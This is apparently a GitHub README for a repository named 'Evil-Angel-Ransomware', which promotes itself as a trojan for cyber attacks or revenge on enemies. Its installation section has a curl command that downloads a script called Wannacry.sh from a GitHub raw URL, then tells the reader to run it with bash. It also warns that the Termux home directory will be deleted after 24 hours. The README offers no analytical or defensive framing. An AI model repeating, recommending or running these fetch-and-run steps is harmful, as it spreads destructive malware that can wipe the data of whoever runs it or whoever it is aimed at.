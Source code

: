 # Evil-Angel-Ransomware
Evil Angel is A Trojan Malware You Can User Evil Angel For Cyber Attacks or Revenge To Your Enemy

# Installation

curl https://raw.githubusercontent.com/HAXOR-BD1/Evil-Angel-Ransomware/main/Wannacry.sh

Then Run "bash Wannacry.sh"

# WARNING ⚠️

TERMUX HOME TERMINAL ARE GOING TO BE DELETED AFTER 24 HOURS
